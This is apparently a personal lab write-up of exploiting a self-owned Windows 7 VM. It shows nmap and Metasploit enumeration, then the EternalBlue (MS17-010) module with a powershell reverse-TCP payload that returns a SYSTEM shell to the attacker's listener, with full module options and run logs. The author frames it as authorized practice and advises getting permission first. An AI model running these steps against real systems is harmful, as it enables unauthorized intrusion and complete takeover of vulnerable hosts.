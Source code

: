 ## Box: [Blue] — Started: 2025-10-14 21:10

**IP/Host:** Local VM, `MAC: 00:0c:29:21:0B:A3`  |  **Status:** `In-Progress`

current session IP:
192.168.109.130
### TL;DR

Initial: `how in`. PrivEsc: `how root`.

**Key Takeaways**:
The first time I ran this exploit (not pictured here), it actually crashed the network connection. The login screen to the machine still looked functional, but ping no longer located the machine and I wasn't able to run the exploit anymore because the box wasn't findable.

*This is good to note*: RCE exploits can disable key functionality or bring down a machine entirely. When dealing with Key infrastructure, **USE CAUTION** and get perms first, otherwise you could end up harming someone

*Cumulative Impact Overview*:
- RCE
- `nt authority/system` user access

### Exploit Lifecycle

1. *Validation & Recon*: Local VM, personally owned machine -> valid to exploit
2. *Enumeration & Scanning*:

- `nmap -sV 192.168.109.130`
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```

**NOTE**: SMB possibly vulnerable. Checking...

- NMAP scripts first: `nmap -sC -p 445 192.168.109.130`
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 21:24 EDT
Nmap scan report for 192.168.109.130
Host is up (0.00020s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:21:0B:A3 (VMware)

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-10-15T01:24:06
|_  start_date: 2025-10-15T03:07:26
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:21:0b:a3 (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-14T21:24:06-04:00
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
```
- Potentially SMB v2, let's validate in Metasploit


- Metasploit SMB Version scanner:
```bash
msf auxiliary(scanner/smb/smb_version) > run
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.109.130:445   - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{048d4194-ec4a-43ba-b0ea-e937d89721f3}) (authentication domain:WIN-845Q99OO4PP)
[+] 192.168.109.130:445   -   Host is running Windows 7  Ultimate  SP1  (build:7601)
[*] 192.168.109.130       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) > 
```

- Preferred dialect: SMB 2.1
    - Lets look for vulnerabilities for Win7 using smb2.1


3. *Findings & Exploits*:
    - EternalBlue: https://www.exploit-db.com/exploits/42315
        - Module: `exploit/windows/smb/ms17_010_eternalblue` w/ payload `windows/x64/powershell_reverse_tcp` -> SUCCEEDS to `root`
4. *PrivEsc*:
    - No privesc needed, exploit drops you into root shell

5. *Proof — path to flags/screenshot of boxpwn*:

- Setup:
    - SMBDomain -> `ADMIN$`
    - payload -> `windows/x64/powershell_reverse_tcp`

```powershell
msf exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.109.128:4444 
[*] 192.168.109.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.109.130:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.109.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.109.130:445 - The target is vulnerable.
[*] 192.168.109.130:445 - Connecting to target for exploitation.
[+] 192.168.109.130:445 - Connection established for exploitation.
[+] 192.168.109.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.109.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.109.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.109.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.109.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.109.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.109.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.109.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.109.130:445 - Starting non-paged pool grooming
[+] 192.168.109.130:445 - Sending SMBv2 buffers
[+] 192.168.109.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.109.130:445 - Sending final SMBv2 buffers.
[*] 192.168.109.130:445 - Sending last fragment of exploit packet!
[*] 192.168.109.130:445 - Receiving response from exploit packet
[+] 192.168.109.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.109.130:445 - Sending egg to corrupted connection.
[*] 192.168.109.130:445 - Triggering free of corrupted buffer.
[*] Powershell session session 1 opened (192.168.109.128:4444 -> 192.168.109.130:49158) at 2025-10-14 22:36:01 -0400
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.109.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

PS C:\Windows\system32> whoami
nt authority\system

```
### Findings

- **CONFIRMED** *- Found*: PORT 139/445 - 192.168.109.130 - 2025-10-14 21:51:35 - SMB 2.1 on Win7 client vulnerable to eternal blue. Allows for remote code execution, and payload `exploit/windows/smb/ms17_010_eternalblue` provides immediate access to root-level user, 

### Full shell log of successful session
```bash
msf payload(windows/powershell_reverse_tcp) > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/powershell_reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.109.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                             asploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 target machines.


Payload options (windows/x64/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXITFUNC      thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST         192.168.109.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms17_010_eternalblue) > set SMBDomain ADMIN$
SMBDomain => ADMIN$
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.109.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                             asploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain      ADMIN$           no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 target machines.


Payload options (windows/x64/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXITFUNC      thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST         192.168.109.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms17_010_eternalblue) > check
[*] 192.168.109.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.109.130:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.109.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.109.130:445 - The target is vulnerable.
```